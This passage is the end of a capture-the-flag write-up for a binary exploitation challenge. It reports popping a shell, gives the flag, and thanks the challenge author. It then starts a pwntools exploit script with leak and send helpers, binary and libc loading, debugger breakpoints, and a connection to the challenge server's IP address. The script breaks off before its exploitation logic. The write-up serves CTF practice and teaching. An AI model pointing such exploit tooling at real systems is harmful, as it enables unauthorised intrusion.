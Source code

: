 Run the script and we get a shell! `cat flag.txt` for the flag :)  

    uoftctf{r3m3mb3r_7h47_ch4r_15_516n3d_by_d3f4ul7}

### special thanks <3

Special thanks to White, the challenge author, for helping me out with infra issues. My challenge was generating too much output and consequently crashing the remote, and so he helped fix up the infra to let my solve work. Much appreciated! :)  

### full script  

Anyways, here's the full script:  

```py
# Useful references:
# https://gist.github.com/anvbis/64907e4f90974c4bdd930baeb705dedf

from pwn import *
import sys
import os
from time import sleep

#---------HELPER FUNCTIONS---------#

def get_leak(before: bytes, end: bytes=b'\n') -> int:
    p.recvuntil(before)
    return int(p.recvuntil(end).decode('ascii')[:-1], 16)

def send(payload: bytes, before: bytes=b'', line: bool=True) -> int:
    payload = payload + (b'\n' if line else b'')
    if before == b'':
        p.send(payload)
    else:
        p.sendafter(before, payload)


#---------SETUP---------#

args = list(map(lambda s: s.upper(), sys.argv))
_libcs = list(filter(lambda s: 'libc.so.6' in s, os.listdir()))
_lds = list(filter(lambda s: 'ld' == s[:2], os.listdir()))

elf = ELF("chall_patched")                                              #------TODO------#
libc = ELF(_libcs[0]) if len(_libcs) else elf.libc
ld = ELF(_lds[0]) if len(_lds) else None

context.binary = elf
context.log_level = "DEBUG"

gdbscript = '''
# b *sort+396
# b *sort+479
b *sort+623
'''

'''
breakpoints:
after read()
after memory write loop
ret after putchar() loop
'''

if 'REMOTE' in args:
    p = remote('34.170.104.126', 5000)                                   #------TODO------#
```